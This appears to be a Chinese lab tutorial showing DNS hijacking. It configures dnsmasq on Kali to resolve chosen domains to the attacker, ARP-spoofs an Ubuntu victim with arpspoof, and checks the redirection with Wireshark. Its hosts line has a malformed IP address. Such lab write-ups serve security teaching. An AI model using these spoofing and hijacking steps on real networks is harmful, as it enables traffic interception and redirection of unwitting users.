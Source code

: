 ```yaml
---
title: DNS劫持实验
description: 本次实验旨在通过配置和使用 Kali Linux 中的 dnsmasq 服务，演示 DNS 劫持攻击的过程，并观察其对被攻击主机的影响
#cover: /cover/cover2.png
tag:
 - DNS
#sticky: 999
date: 2025-04-02 17:18
---
```

# DNS劫持实验

**注意:** 实验中的ip依自己的实验环境为准,注意替换

​		本文中攻击者kali主机的IP为`192.168.183.137` 

​					被攻击者ubuntu主机的IP为`192.168.183.136` 

​					网关为`192.168.183.2`

## 1.配置dnsmasq服务

* 安装dnsmasq

  ```bash
  sudo apt update
  sudo apt install dnsmasq
  ```

  

![image-20250402153451250](images/DNS劫持实验/image-20250402153451250.png)

* 配置dnsmasq

  ```bash
  sudo vim /etc/dnsmasq.conf
  ```

  在文件末尾添加配置:

  ```
  resolv-file=/etc/resolv.dnsmasq
  strict-order
  listen-address=192.168.183.137  # Kali IP
  address=/zhaofan.com/192.168.183.137  # 将域名指向Kali自身
  server=8.8.8.8  # 上游DNS
  ```

  ![image-20250402163616376](images/DNS劫持实验/image-20250402163616376.png)

* 本地启用dnsmasq解析

  ```bash
  sudo vim /etc/resolv.conf
  ```

  修改dns服务器为kali ip

  ![image-20250402164008315](images/DNS劫持实验/image-20250402164008315.png)

* 在hosts文件中添加解析

  ```bash
  echo "192.168.183.137.10 lanjinxin.com" >> /etc/hosts
  ```

* 启动 dnsmasq 服务并设置开机自启动

  ```bash
  systemctl restart dnsmasq && systemctl enable dnsmasq
  ```

## 2.配置被攻击主机(Ubuntu24.04)

* 修改主机hosts文件

```bash
sudo vim /etc/resolv.conf
```

![image-20250402164347315](images/DNS劫持实验/image-20250402164347315.png)

将nameserver 设置为kali ip `192.168.183.137`



##  3.使用 arpspoof 进行 ARP 欺骗

* 在 Kali Linux 上，使用 `arpspoof` 进行 ARP 欺骗，使得被攻击主机的流量通过攻击者主机：

  ```bash
  arpspoof -i eth0 -t [被攻击ip] -r [网关ip]
  ```

  ![image-20250402164940250](images/DNS劫持实验/image-20250402164940250.png)

​	*如果不知道网关ip可以使用以下指令查询:*

```bash
route -n | grep 'UG' | awk '{print $2}'
```

## 4.观察被攻击主机访问被劫持域名时的重定向情况

* 在kali主机上使用wireshark验证dns劫持重定向

![image-20250402165508341](images/DNS劫持实验/image-20250402165508341.png)

​	可见原向网关[192.168.183.2]查询dns的ubuntu主机[192.168.183.136]被kali劫持

* 在kali上搭建http服务器

  ```bash
  python3 -m http.server 80
  ```

  ![image-20250402165950014](images/DNS劫持实验/image-20250402165950014.png)

  kali主机访问测试

  ![image-20250402170242885](images/DNS劫持实验/image-20250402170242885.png)

* 在被攻击主机上访问域名`lanjinxin.com`

![image-20250402170154024](images/DNS劫持实验/image-20250402170154024.png)

被攻击主机访问 `lanjinxin.com` 时显示的是 Kali Linux 上的 HTTP 服务器页面，说明 DNS 劫持成功。

* 在 Wireshark 中，可以观察到 DNS 请求和响应

![image-20250402170805657](images/DNS劫持实验/image-20250402170805657.png)

可见ubuntu主机[192.168.183.136]通过dns查询`lanjinxin.com`的ip被kali主机[192.168.183.137]劫持并将自己的ip作为目标ip返回给被攻击主机
